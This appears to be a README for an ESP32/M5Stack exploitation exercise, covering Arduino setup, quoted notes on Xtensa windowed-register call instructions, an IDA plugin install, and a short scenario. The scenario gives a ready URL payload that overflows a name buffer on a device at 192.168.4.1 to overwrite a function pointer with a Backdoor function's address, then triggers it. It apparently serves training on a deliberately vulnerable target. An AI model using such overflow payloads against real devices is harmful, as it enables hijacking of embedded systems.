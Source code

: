 

# Using M5Stack With Arduino IDE

You can follow instructions from the following document to flash applications from Arduino IDE.

[M5Core Quick Start - Arduino Win](https://docs.m5stack.com/#/en/quick_start/m5core/m5stack_core_get_started_Arduino_Windows)

* [Xtensa Instruction Set Architecture (ISA)](https://0x04.net/~mwk/doc/xtensa.pdf)

## Windowed registers

```
That�s probably one of the most special feature of the LX6, so that�s what I�ll talk about. The processor contains 64 32-bit registers but only an interval of 16 registers can be seen at each instant. A 4-bit WindowBase special register chooses which range of registers is visible and addressable. This register can be modified by WSR (Write to Special Register) but other instructions have special mechanisms with this feature.
```
* [The Xtensa architecture](https://www.lortex.org/posts/esp32/2018/03/28/the-xtensa-architecture.html)

## CALL

```
CALLN , CALLXN :
CALL4: call a procedure that will move the window by 4 registers.
CALL8: same of 8 registers.
CALL12: you know it. This does not actually move the window but rather takes the 30 first bits of the register, put them in the return address register and use the two last bits to encode the window rotation offset (4, 8 or 12).
```

## ENTRY

```
ENTRY sp, This instruction performs the window rotation according to the two highest bits of the return address and update the stack pointer given .
```


## RETW

```
RETW Rotates back the register window and jump to return address. Note that because the two highest bits are used to encode the window rotation, RETW uses its own two highest bits. Therefore the return address must be in the same 1G as the RETW instruction. I guess that will not be a problem for embedded devices.
```

## Install IDA xtensa plugin

Download https://github.com/themadinventor/ida-xtensa/blob/master/xtensa.py and copy it to the following location:

"%ProgramFiles%\IDA 7.1\procs"

## Scenario

Global variable: projectName -> Buffer overflow -> Overwrite functionInformation.funcPtr -> Call getInfo to run  functionInformation.funcPtr pointer

Ex)

Backdoor function (_Z8Backdoorv): 400d1dcc -> %cc%1d%0d%40

http://192.168.4.1/setName?name=%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%cc%1d%0d%40

_Z8Backdoorv
400d1dcc

Call getInfo:
http://192.168.4.1/getInfo


